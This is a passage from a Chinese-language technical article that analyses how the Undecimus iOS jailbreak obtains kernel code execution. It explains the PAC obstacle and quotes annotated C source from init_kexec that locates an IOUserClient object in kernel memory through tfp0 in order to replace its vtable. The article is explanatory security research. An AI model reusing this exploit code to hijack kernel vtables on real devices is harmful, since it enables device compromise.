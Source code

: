 # kexec 代码实现
上述讨论较为宏观，忽略了一些重要细节，下面将结合 Undecimus 源码进行详细分析。

## PAC 带来的挑战
自 iPhone XS 开始，苹果在 ARM 处理器中扩展了一项称之为 PAC(Pointer Authentication Code) 的技术，它将指针和返回地址使用特定的密钥寄存器签名，并在使用时验签。一旦验签失败，将会解出一个无效地址引发 Crash，它为各种常见的寻址指令增加了扩展指令[1]：
```
BLR -> BLRA*
LDRA -> LDRA*
RET -> RETA*
```
这项技术给我们的 ROP 带来了很大麻烦，在 Undecimus 中针对 PAC 做了一系列特殊处理，**整个过程十分复杂，本文不再展开，将在接下来的文章中详细介绍 PAC 缓解措施及其绕过方式**。有兴趣的读者可以阅读 [Examining Pointer Authentication on the iPhone XS](https://googleprojectzero.blogspot.com/2019/02/examining-pointer-authentication-on.html#) 来详细了解。

## 虚函数劫持
我们知道 C++ 对象的虚函数表指针位于对象的起始地址，而虚函数表中按照偏移存放着实例方法的函数指针[2]，因此我们只要确定了 `getExternalTrapForIndex` 方法的偏移量，再利用 tfp0 篡改虚函数指向的地址即可实现 ROP。

Undecimus 的相关源码位于 init_kexec 中，我们先忽略 arm64e 对 PAC 的处理，了解它的 vtable patch 方法，下面的代码包含了 9 个关键步骤，已给出关键注释：
```c
bool init_kexec()
{
#if __arm64e__
    if (!parameters_init()) return false;
    kernel_task_port = tfp0;
    if (!MACH_PORT_VALID(kernel_task_port)) return false;
    current_task = ReadKernel64(task_self_addr() + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
    if (!KERN_POINTER_VALID(current_task)) return false;
    kernel_task = ReadKernel64(getoffset(kernel_task));
    if (!KERN_POINTER_VALID(kernel_task)) return false;
    if (!kernel_call_init()) return false;
#else

    // 1. 创建一个 IOUserClient
    user_client = prepare_user_client();
    if (!MACH_PORT_VALID(user_client)) return false;

    // From v0rtex - get the IOSurfaceRootUserClient port, and then the address of the actual client, and vtable
    // 2. 获取 IOUserClient 的内核地址，它是一个 ipc_port
    IOSurfaceRootUserClient_port = get_address_of_port(proc_struct_addr(), user_client); // UserClients are just mach_ports, so we find its address
    if (!KERN_POINTER_VALID(IOSurfaceRootUserClient_port)) return false;

    // 3. 从 ipc_port->kobject 获取 IOUserClient 对象
    IOSurfaceRootUserClient_addr = ReadKernel64(IOSurfaceRootUserClient_port + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT)); // The UserClient itself (the C++ object) is at the kobject field
    if (!KERN_POINTER_VALID(IOSurfaceRootUserClient_addr)) return false;

    // 4. 虚函数指针位于 C++ 对象的起始地址
    kptr_t IOSurfaceRootUserClient_vtab = ReadKernel64(IOSurfaceRootUserClient_addr); // vtables in C++ are at *object
    if (!KERN_POINTER_VALID(IOSurfaceRootUserClient_vtab)) return false;

    // The aim is to create a fake client, with a fake vtable, and overwrite the existing client with the fake one
    // Once we do that, we can use IOConnectTrap6 to call functions in the kernel as the kernel

    // Create the vtable in the kernel memory, then copy the existing vtable into there
    // 5. 构造和拷贝虚函数表
```